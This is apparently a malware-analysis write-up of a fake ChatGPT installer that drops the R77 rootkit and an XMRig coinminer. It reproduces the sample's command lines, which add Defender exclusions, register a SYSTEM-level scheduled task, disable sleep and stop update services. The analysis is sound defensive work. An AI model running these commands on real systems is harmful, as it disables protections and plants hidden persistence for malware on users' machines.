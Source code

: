```yaml
---
tags: Trojans
---
```

## Investigating A Fake Trojanised ChatGPT Application

This sample is a trojanised ChatGPT installer which can be downloaded as an .msi file from SourceForge. It masquerades as a Free ChatGPT 4 binary but utilises the R77 rootkit to deploy XMRig coinminer malware.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7dd1c425-3a00-49f9-871f-4fa5394e152c)

During installation, the directory 'C:\Program Files (x86)\OpenAI' is created, and process 'C:\Program Files (x86)\OpenAI\Chatgpt Desktop V4\Free Chatgpt V4\Free Chatgpt V4.exe' is executed.

This process spawns cmd.exe with the following command line:
```
C:\Windows\system32\cmd.exe /c "powershell.exe "Add-MpPreference -ExclusionPath “C:\Windows\Temp”,“C:/”,“.exe”""
```
This command will exclude any executables in the path "C:\Windows\Temp" from being looked at by Windows Defender, this is highly suspicious and indicates that something malicious is likely residing in the Temp directory.

Turning our attention to the Temp directory, we observe the following file creation event for the executable "Free Chatgpt V4.exe"

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/231c750a-27e8-4481-8cd0-9a40e7edc0dd)

Upon execution of the main ChatGPT binary,a binary of the same name 'Free Chatgpt V4.exe' in the Temp directory is executed silently. The same binary also exists as 'C:\Program Files\Google\Chrome\Googleupdater.exe'.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6453e05-2b36-4c3d-b9fe-783443a73bc2)

The binaries present at 'C:\Program Files\Google\Chrome\Googleupdater.exe' and 'C:\Windows\Temp\Free Chatgpt V4.exe' are R77 rootkits

R77’s primary purpose is to hide the presence of other software on a system, making it ideal in this case to hide elements of coin miner malware.

Further commands of interest were identified, but it's difficult to gather further context surrounding them likely due to the nature of the R77 rootkit.

_A scheduled task called "GoogleUpdateXQ" is created as a persistence mechanism to execute the rookit_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe <#sednnxbeh#> IF([System.Environment]::OSVersion.Version -lt [System.Version]"6.2") { schtasks /create /f /sc onlogon /rl highest /ru 'System' /tn 'GoogleUpdateXQ' /tr '''C:\Program Files\Google\Chrome\Googleupdater.exe''' } Else { Register-ScheduledTask -Action
(New-ScheduledTaskAction -Execute 'C:\Program Files\Google\Chrome\Googleupdater.exe') -Trigger (New-ScheduledTaskTrigger -AtStartup) -Settings (New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DisallowHardTerminate -DontStopIfGoingOnBatteries -DontStopOnIdleEnd -ExecutionTimeLimit (New-TimeSpan -Days 1000)) -
TaskName 'GoogleUpdateXQ' -User 'System' -RunLevel 'Highest' -Force; }
```

_The scheduled task is executed directly via command line_
```
C:\Windows\System32\schtasks.exe /run /tn "GoogleUpdateXQ"
```


_A command is executed which manipulates sleep functions on the host, which is a technique leveraged by coin-mining malware_
```
C:\Windows\System32\cmd.exe /c powercfg /x -hibernate-timeout-ac 0 & powercfg /x -hibernate-timeout-dc 0 & powercfg /x -standby-timeout-ac 0 & powercfg /x -standby-timeout-dc 0
```

_Legitimate Windows services are stopped, this is another indication of coin miner malware_
```
C:\Windows\System32\cmd.exe /c sc stop UsoSvc & sc stop WaaSMedicSvc & sc stop wuauserv & sc stop bits & sc stop dosvc
```

_Further Windows Defender exclusion paths are added_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-MpPreference -ExclusionPath @($env:UserProfile, $env:ProgramFiles) -Force
```

These commands are a strong indication of coin-miner malware, and are similar to samples such as:

[https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de](https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de)

[https://www.joesandbox.com/analysis/1279914/0/lighthtml](https://www.joesandbox.com/analysis/1279914/0/lighthtml)

_Basic Execution Flow_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e48d185e-6604-44bd-aafd-ebe3d87e23eb)



